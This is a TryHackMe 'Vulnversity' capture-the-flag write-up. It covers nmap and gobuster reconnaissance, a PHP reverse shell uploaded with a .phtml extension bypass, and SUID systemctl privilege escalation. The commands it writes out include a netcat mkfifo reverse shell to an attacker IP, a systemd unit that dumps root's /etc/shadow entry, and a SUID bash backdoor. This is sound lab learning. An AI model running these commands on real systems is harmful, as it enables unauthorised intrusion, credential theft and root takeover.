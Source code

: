 # Tryhackme - [Vulnversity](https://tryhackme.com/room/vulnversity)
Written on 19/12/2021


## Nmap
I started by running an nmap scan, including scanning for services and OS, and with the default scripts

```
sudo nmap -vv -sS -sV -O -sC --top-ports 1024 -oN nmap.txt 10.10.253.81
```

Scan results:

![](./images/vulnver1.png)

The scan finds us 6 open ports, namely 21, 22, 139, 445, 3128, 3333. It's interesting to see that the web server is on 3333 instead of 80 or 443

> Scan the box, how many ports are open?

Answer: 6

> What version of the squid proxy is running on the machine?

Scan found this as well

Answer: 3.5.12

> How many ports will nmap scan if the flag -p-400 was used?

Answer: 400

> Using the nmap flag -n whatwill it not resolve?

Answer: DNS

> What is the most likely operating system this machine is running?

Nmap OS Detection actually wasn't sure about this one for me, but this could be concluded, for example, from the fact that Nmap found the web server on port 3333 to be verison "Apache httpd ((Ubuntu))"


## Gobuster
I ran gobuster, as the room instructed, to search for directories

```
gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.10.253.81:3333 -t 100
```

Here are the results:

![](./images/vulnver2.png)

Checking those out, 
- /images -> images used on the website
- /css -> contains a bunch of css files, probably uninteresting for me
- /js -> seems to hold all the Javascript files of the application, might be useful
- /fonts -> contains some directories, navigating through those I find a file named backup.txt
- /internal -> an upload form, this might be vulnerable to uploading some malicious files

> What is the directory that has an upload form page?

Answer: /internal

Before moving on, I check out that backup.txt file. It seems to contain base64 encoded data, so I decoded it:

However it just looks like a regular font backup file, so I went on


## Upload form
I tried to upload the good old /usr/share/webshells/php/php-reverse-shell.php, however I got an "extension not allowed" message

At least that answers the THM question

> Try upload a few file types to the server, what common extension seems to be blocked?

Answer: .php

I opened up Burpsuite after the room instructed me to, made the wordlist, and set intercept on and set target scope. I uploaded the php reverse shell again, this time intercepting the request

I cleared burp's automated positions, and selected the file's extension to be the position that intruder would change. Then I configured it to use the small custom extension wordlist and started the attack

**Inspecting the response to each request**, I found that the .phtml extension uploaded successfuly

> Run this attack, what extension is allowed?

Answer: .phtml

I proceeded to set up a listener with netcat

```
sudo nc -nlvp 1234
```

The room tellls us that the files are uploaded to /internal/uploads

So I navigate to where I uploaded my shellcode and catch the shell on my local machine.


## Looking around

First, I checked if python is installed with `which python`, it was, then I stabilized my shell:
1. `python -c 'import pty;pty.spawn("/bin/bash")'`
2. `export TERM=xterm`
3. I backgrounded the shell, then, on local machine
4. `stty raw -echo; fg`
5. Remember to type `reset` into local terminal afterwards to get terminal echo back


First I looked in /home to see the users, there was only one, namely bill:

![](./images/vulnver4.png)

> What is the name of the user who manages the webserver?

Answer: bill

Then I went into his home directory and found the user flag:

![](./images/vulnver5.png)


## Privilege Escalation
Here, the room hints that there is an escalation vector through a **SUID binary**, so you should run a search for those. I used this:
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

The results:

![](./images/vulnver6.png)

Out of these, systemctl stands out the most

> On the system, search for all SUID files. What file stands out?

Answer: systemctl

We can check out [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/) to find a way to exploit this

Reading up on the SUID section, we basically get the commands we have to run, with a few exceptions:

- The first line is not needed, as we can already run systemctl with SUID
- ./systemctl should be replaced with systemctl to let the machine find the executable via PATH
- Replace the id command 

I could have just replaced `id` with `cat /root/root.txt`, but I wanted to actually obtain a root shell for practice.
I decided to try and crack root's password so I grabbed the /etc/shadow entry

So this is the result

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /etc/shadow | grep root > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```

![](./images/vulnver7.png)

My attempt on cracking the password seemed to take longer than is normal for such a room, so I gave up on it

![](./images/vulnver8.png)

But I still wanted to get that root shell so I checked if netcat was installed and used a netcat reverse shell via the following command:

```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Replace \<LOCAL-IP\> and \<PORT\>.
I placed that into the **-c field**, set up a local listener, ran the command, it was kinda weird, had to press enter a few times, BUT it worked:

![](./images/vulnver9.png)

And that's the room completed

## Alternative method
After completing the room I realized a simpler way of getting a root shell would copying /bin/bash somewhere and making it run with SUID, this is the code for making that happen:
```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cp /bin/bash /tmp/suidbash; chmod 4777 /tmp/suidbash"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```

Then remember to run /tmp/suidbash with the **-p flag**

## Conclusion
I really had fun trying to get an actual root shell instead of just cat-ing out the flag, because even though it wasn't necessary, I'm still a complete beginner and think I should be practicing these things, and it felt good to make it work.
